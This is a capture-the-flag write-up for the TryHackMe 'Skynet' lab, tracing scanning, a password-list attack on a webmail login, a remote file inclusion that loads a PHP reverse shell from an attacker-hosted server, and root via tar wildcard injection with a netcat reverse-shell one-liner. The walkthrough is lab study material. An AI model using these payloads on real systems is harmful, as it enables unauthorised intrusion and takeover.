

# Skynet

**Date**: 03/04/2022

**Difficulty**: Easy

**CTF**: [https://tryhackme.com/room/skynet](https://tryhackme.com/room/skynet)

***

A vulnerable Terminator themed Linux machine.

## What is Miles password for his emails? <a href="#user-content-what-is-miles-password-for-his-emails" id="user-content-what-is-miles-password-for-his-emails"></a>

First things first, let’s to a quick scan:

<figure><figcaption></figcaption></figure>

Ping received by the machine. as the ttl=63 we can guess it is a Linux machine (as the description says).

<figure><figcaption></figcaption></figure>

nmap discovered several ports open. Let’s get more info of them:

<figure><figcaption></figcaption></figure>

Let’s see what the webserver has:

<figure><figcaption></figcaption></figure>

The landing page is something like a browser (a copy of Google to be more exact).

<figure><figcaption></figcaption></figure>

Source code of the page doesn’t reveal nothing like a credential.

I have checked if robots.txt file exists but it doesn’t. I also tried to search some words, with no success. The site didn’t create any cookie or load any script.

Let’s proceed with the directory & files enumeration.

<figure><figcaption></figcaption></figure>

gobuster found some directories we have not access to. All of the discovered ones except one send us a forbidden status (403).

Let’s see what’s inside /squirrelmail

<figure><figcaption></figcaption></figure>

There is nothing in the source code we can use. I’m pretty sure that we’ll be using this login form in the future.

I’m going to check if the webpage is vulnerable to XSS:

<figure><figcaption></figcaption></figure>

Nope, nothing happens.

Let’s capture the request with burpsuite and see if there is something interesting there:

<figure><figcaption></figcaption></figure>

Apparently it doesn’t matter what you try to seach, it always send the submit parameter with “Skynet+Search” value.

Let’s try to change it and send “Admin” value… Just to try something:

Same results as before. This seems to be a non-exit path.

Let’s take a look at the nmap results again…

<figure><figcaption></figcaption></figure>

Dovecot imapd seems to be an IMAP server (used for emails). And it looks like it has activated some capabilities like LoginDisable and Pre-login… it sounds strange.

According to HackTricks:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

We have connected to the Dovecot service, but I have no idea what can I do here… Aparently I can do nothing if I cannot login, so move to the next thing.

<figure><figcaption></figcaption></figure>

There is an SMB server exposed in the port 445, let’s see what can we see without credentials:

`xdg-open smb://10.10.208.14`

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

As anonymous, the only folder we have access to is “anonymous”:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

We found a text file with a message from Miles Dyson and a folder with 3 files:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Only one of them have information, and it looks like a password list. I’m going to save it.

It would be funny if the password of Miles Dyson is part of this list, as he sent a message asking all users to change their passwords… I have to check it.

To do it I’ll use hydra, with `milesdyson` as username and the `log1.txt` as wordlist for passwords:

<figure><figcaption></figcaption></figure>

Nope. I also tried with ssh and imap with same results.

Oh, the squirrel mail login page… maybe it will work? As the wordlist is not so large, I’ll try to do a dictionary attack using BurpSuite:

First off all, let’s intercept a login request:

<figure><figcaption></figcaption></figure>

Send the request to intruder, configure it…

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

And Start the attack!

<figure><figcaption></figcaption></figure>

After a few minutes, the attack finishes and attending to the length of the responses, every request except one have a lenght of 3240 which probably indicates that the login has failed, let’s try to login using the credentials that generated a request with the different length as password:

<figure><figcaption></figcaption></figure>

Yeah! We’re in!

## What is the hidden directory? <a href="#user-content-what-is-the-hidden-directory" id="user-content-what-is-the-hidden-directory"></a>

Before anything, let’s take a look to the emails:

<figure><figcaption></figcaption></figure>

strange email from serenakkogan, anyway I’ll take note of the test just in case:

```
i can i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i i can i i i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i . . . . . . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i i i i i everything else . . . . . . . . . . . . . .
balls have 0 to me to me to me to me to me to me to me to me to
you i i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to

```

<figure><figcaption></figcaption></figure>

```
01100010 01100001 01101100 01101100 01110011 00100000 01101000 01100001 01110110
01100101 00100000 01111010 01100101 01110010 01101111 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111
```

Same as before it’s pretty strange, but this time it’s clearly recognizable that it is written in binary, so let’s try to convert it to something readable:

`balls have zero to me to me to me to me to me to me to me to me to`

Ok… Let’s move on

<figure><figcaption></figcaption></figure>

This one is interesting, it includes the new password for the samba service of this user.

I checked the Drafts, Sent and Trash folders but there was nothing there.

With the credentials, let’s try to log in samba share using these credentials:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Logged in! The password is correct.

<figure><figcaption></figcaption></figure>

The file important.txt looks… important:

<figure><figcaption></figcaption></figure>

I think we have found the hidden folder!

<figure><figcaption></figcaption></figure>

Yep we did!

## What is the vulnerability called when you can include a remote file for malicious purposes? <a href="#user-content-what-is-the-vulnerability-called-when-you-can-include-a-remote-file-for-malicious-purpo" id="user-content-what-is-the-vulnerability-called-when-you-can-include-a-remote-file-for-malicious-purpo"></a>

Remote file inclusion

## What is the user flag? <a href="#user-content-what-is-the-user-flag" id="user-content-what-is-the-user-flag"></a>

Let’s do a directory scan in the new folder found:

<figure><figcaption></figcaption></figure>

Gobuster quickly discovers the directory /administrator, let’s look whats inside:

<figure><figcaption></figcaption></figure>

The CMS used is something called Cuppa… Let’s look if there is any exploitable vunerability

<figure><figcaption></figcaption></figure>

Yeah, apparently it’s one that will allow us to do remote file inclusion, nice:

<figure><figcaption></figcaption></figure>

Apparently we can create a http server in our machine, hosting a php reverse shell that will be executed by the target… Let’s try:

After the http server is set up, he have to navigate to:

[`http://10.10.25.208/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.10.10:8000/php-reverse-shell.php`](http://10.10.25.208/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.10.10:8000/php-reverse-shell.php)

<figure><figcaption></figcaption></figure>

And we get a reverse shell, awesome!

<figure><figcaption></figcaption></figure>

## What is the root flag? <a href="#user-content-what-is-the-root-flag" id="user-content-what-is-the-root-flag"></a>

First try is to try to see if we can cd /root

<figure><figcaption></figcaption></figure>

Nope.

Well, as we will be interacting with this console, let’s see if we see some ssh credentials, if not, we’ll have to stabilize the console:

<figure><figcaption></figcaption></figure>

No ssh credentials, time to stabilize it:

<figure><figcaption></figcaption></figure>

done, now let’s look for something we can use to escalate privileges.

<figure><figcaption></figcaption></figure>

passwd is readable, but shadow no.

<figure><figcaption></figcaption></figure>

As we don’t know the password of the user www-data we cannot list if there is any command that we can run with sudo.

<figure><figcaption></figcaption></figure>

There is a script being executed every minute as root, and it is in the /home/milesdyson/backups folder.

Let’s see if we have write permissions there:

<figure><figcaption></figcaption></figure>

Nope, we don’t.

Let’s try to log in as milesdyson using the password found previously with BurpSuite:

<figure><figcaption></figcaption></figure>

Yeah, it worked.

<figure><figcaption></figcaption></figure>

This user cannot enter in /root neither.

<figure><figcaption></figcaption></figure>

And cannot change the script… let’s see if can execute something using sudo:

<figure><figcaption></figcaption></figure>

Nothing. Meh… let’s use linPEAS, I’m out of ideas.

linPEAS didn’t help me this time and I had to read another write up… Apparently we can use the [backup.sh](http://backup.sh) script, as it creates a backup of a directory using tar, and there is a vulnerability of tar we can take advantage of ([https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/))

So, we had to execute this code (with www-data user):

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4444 >/tmp/f" > shell.sh touch "/var/www/html/--checkpoint-action=exec=sh shell.sh" touch "/var/www/html/--checkpoint=1"`

<figure><figcaption></figcaption></figure>

Open a netcat listener and wait for the root console:

<figure><figcaption></figcaption></figure>

Aaaand done.
